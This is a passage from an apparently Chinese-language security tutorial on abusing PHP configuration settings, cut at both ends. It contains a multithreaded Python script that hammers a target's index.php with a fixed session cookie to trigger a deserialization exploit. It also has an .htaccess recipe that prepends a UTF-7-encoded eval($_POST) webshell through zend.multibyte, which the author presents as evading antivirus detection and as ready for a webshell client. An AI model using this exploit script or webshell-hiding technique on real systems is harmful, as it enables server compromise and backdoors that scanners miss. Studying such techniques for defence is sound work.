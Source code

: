 接下来是访问`index.php`触发反序列化的脚本：

```
import requests
import threading

sessid = 'helloworld'

def read(session):
    while True:
        resp = session.post('http://target.com/index.php',cookies=`{`'PHPSESSID':sessid`}`)
        if 'www-data' in resp.text:
            print(resp.text)
            break
        else:
            print("[+++++++++++++]retry")

    event.clear()

if __name__ == "__main__":
    event = threading.Event()
    with requests.session() as session:
        #for i in range(1,30):
        #    threading.Thread(target=write,args=(session,)).start()

        for i in range(1,30):
            threading.Thread(target=read,args=(session,)).start()

    event.set()
```

运行此脚本，触发了MyTest对象的反序列化：

[![](https://p0.ssl.qhimg.com/t016808bd6548ccaf93.png)](https://p0.ssl.qhimg.com/t016808bd6548ccaf93.png)

这种攻击方式所需的条件与上一个场景基本相同，不同的地方是要利用session反序列化漏洞需要找到session序列化机制的差异点。
<li>
`zend.multibyte`： 默认为0，设置为1时启用多字节编码的源文件解析,例如需要输出unicode字符的情况就要开启此设置，要使用此功能，必须启用mbstring扩展。<br>
值得一提的是该选项配合`zend.script_encoding`,可以起到极好的webshell免杀效果，例如在开启rewrite模块的apache某个目录下放一个.htaccess文件，其内容如下：
<pre><code class="hljs nginx">php_value auto_prepend_file "/tmp/1.txt"
php_value zend.multibyte 1
php_value zend.script_encoding "UTF-7"
</code></pre>
<p>/tmp/1.txt中的内容(UTF7编码后的webshell）：<br>`+ADw-?php+ACA-eval(+ACQ-+AF8-POST+AFs-1+AF0-)+ADs-?+AD4-`<br>
随后，访问与.htaccess同目录的任意php文件，即可用菜刀连接。<br>
附上1.txt在virscan.org的扫描结果：<br>[![](https://p4.ssl.qhimg.com/t01c6db36617f4f965b.png)](https://p4.ssl.qhimg.com/t01c6db36617f4f965b.png)<br>
一路绿灯。。。</p>
</li>
（未完待续，下一篇讨论访问级别为4的配置项）
